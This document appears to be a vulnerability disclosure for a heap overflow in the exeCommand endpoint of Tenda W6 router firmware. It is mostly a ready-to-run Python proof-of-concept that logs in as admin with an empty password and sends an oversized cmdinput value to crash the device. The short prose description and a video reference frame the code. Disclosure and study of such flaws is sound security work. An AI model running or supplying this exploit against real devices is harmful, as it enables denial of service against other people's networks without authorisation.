 # Tenda W6 Heap Overflow Vulnerability

## Device Vulnerability Introduction 
Tenda W6 is an enterprise wireless AP router from Tenda Technology (Shenzhen, China).

A heap overflow vulnerability in /goform/exeCommand in Tenda W6 v1.0.0.9(4122) allows an attacker to construct cmdinput parameters for a heap overflow. An attacker can use this vulnerability to cause a denial of service (DoS). 

Firmware Download：https://www.tenda.com.cn/download/detail-2576.html

## Vulnerability exploit process

![image-20220707155204309](pic/image-20220707155204309.png)

A denial of service (DoS) can be caused by modifying the heap structure when freeing after a heap overflow.

```python
import requests
from pwn import *



burp0_url = "http://192.168.5.1/login/Auth"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"65",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Connection":"close"}

data1='usertype=admin&password=&time=2022;7;6;14;9;6&username='
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

print len(data1)

# sleep(0.1)

burp0_url = "http://192.168.5.1/goform/exeCommand"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="cmdinput="+'a'*0x100


requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)
print len(data1)
```

[The specific reproduction process is shown in the video](video/Tenda W6 堆溢出漏洞.mp4)
